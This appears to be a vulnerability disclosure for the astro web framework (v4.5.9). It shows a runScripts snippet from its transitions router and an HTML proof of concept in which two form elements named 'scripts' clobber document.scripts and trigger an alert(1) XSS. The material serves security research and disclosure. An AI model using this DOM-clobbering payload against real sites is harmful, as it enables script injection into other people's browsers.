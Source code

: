 ## astro

### Meta

+ Library: astro
+ Stars: 45.7K
+ Version: v4.5.9
+ Payload: ```<form name="scripts">alert(1)</form><form name="scripts">alert(1)</form>```
+ Impact: XSS
+ CVE: N/A
+ Status: N/A
+ Foundby: TheHulk


### Library

URL: 
+ `https://github.com/withastro/astro`


### Vulnerable Code Snippet

```javascript
// https://github.com/withastro/astro/blob/7814a6cad15f06931f963580176d9b38aa7819f2/packages/astro/src/transitions/router.ts#L135-L156
function runScripts() {
	for (const script of Array.from(document.scripts)) {
		if (script.dataset.astroExec === '') continue;
		const type = script.getAttribute('type');
		if (type && type !== 'module' && type !== 'text/javascript') continue;
		const newScript = document.createElement('script');
		newScript.innerHTML = script.innerHTML;
		for (const attr of script.attributes) {
			newScript.setAttribute(attr.name, attr.value);
		}
		newScript.dataset.astroExec = '';
		script.replaceWith(newScript);
	}
}

runScripts();
```

### PoC
```html

<!--Library-->
<script>
function runScripts() {
	for (const script of Array.from(document.scripts)) {
		if (script.dataset.astroExec === '') continue;
		const type = script.getAttribute('type');
		if (type && type !== 'module' && type !== 'text/javascript') continue;
		const newScript = document.createElement('script');
		newScript.innerHTML = script.innerHTML;
		for (const attr of script.attributes) {
			newScript.setAttribute(attr.name, attr.value);
		}
		newScript.dataset.astroExec = '';
		script.replaceWith(newScript);
	}
}

runScripts();
</script>
<!--Library-->

<!--Payload-->
<form name="scripts">alert(1)</form>
<form name="scripts">alert(1)</form>
<!--Payload-->
```